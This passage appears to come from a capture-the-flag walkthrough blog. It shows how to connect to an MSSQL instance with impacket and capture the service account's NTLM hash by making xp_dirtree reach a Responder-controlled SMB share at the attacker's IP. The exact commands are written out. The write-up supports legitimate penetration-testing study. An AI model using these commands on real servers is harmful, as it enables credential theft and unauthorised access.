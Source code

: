 -   **Connecting to the mssql instance**:
    -   `impacket-mssqlclient $domain/$user:$pass@$box`
    -   {{< figure src="/ox-hugo/2024-10-04-093702_.png" >}}


### Enumerating the MSSQL Instance: {#enumerating-the-mssql-instance}

-   Looking through the mssql instance there are only default databases.
-   I try and activate `xp_cmdshell` however we do not have perms:
    -   {{< figure src="/ox-hugo/2024-10-04-113407_.png" >}}


### Capturing the MSSQL System Admin hash using [Responder](https://www.kali.org/tools/responder/) &amp; `xp_dirtree`: {#capturing-the-mssql-system-admin-hash-using-responder-and-xp-dirtree}

-   I know that it's possible to read files using `xp_dirtree` as I did this on the Manager box:
    -   <https://bloodstiller.com/walkthroughs/manager-box/>

-   **I check if I can use `xp_dirtree` to read &amp; list local files**
    -   {{< figure src="/ox-hugo/2024-10-04-114913_.png" >}}
    -   I cannot read files however my password is `GuestUserCantWrite1` so lets see if we can write as I know it's possible to host a malicious SMB server and request the DB instance attempt to connect so we can capture the `MSSQL System Administrator Hash`
        -   Just a note: impacket-mssqlclient.py has good tools built in already so you you can just run `xp_dirtee <path>` you do not have to use all args etc.
            -   {{< figure src="/ox-hugo/2024-10-04-125702_.png" >}}



1.  **I start** [Responder](https://www.kali.org/tools/responder/):
    -   `sudo responder -v -I tun0`

2.  **I use** `xp_dirtee` **to connect back to my malicious SMB server**:
    -   `exec master..xp_dirtree '\\10.10.14.38\share\'`
        -   This is just \\\\&lt;MYKALIIP\FAKESHARE&gt;
        -   {{< figure src="/ox-hugo/2024-10-04-115426_.png" >}}

3.  **Hash Caught**:
    -   {{< figure src="/ox-hugo/2024-10-04-115545_.png" >}}
    -   This works as when we run the command using `xp_dirtree` it tries to connect &amp; authorize to our malicious `SMB server` &amp; [Responder](https://www.kali.org/tools/responder/) captures the hash:


#### Overview of `xp_dirtree`: {#overview-of-xp-dirtree}

-   `xp_dirtree` is an extended stored procedure in Microsoft SQL Server.
-   It is used to list the directory structure (files and subdirectories) of a specified path on the server.
-   Command Injection Risk: Since it's interacting with the OS, it can be a target for malicious input if not properly handled. (E.G. Getting it to connect to our malicious SMB server so we can capture hashes)
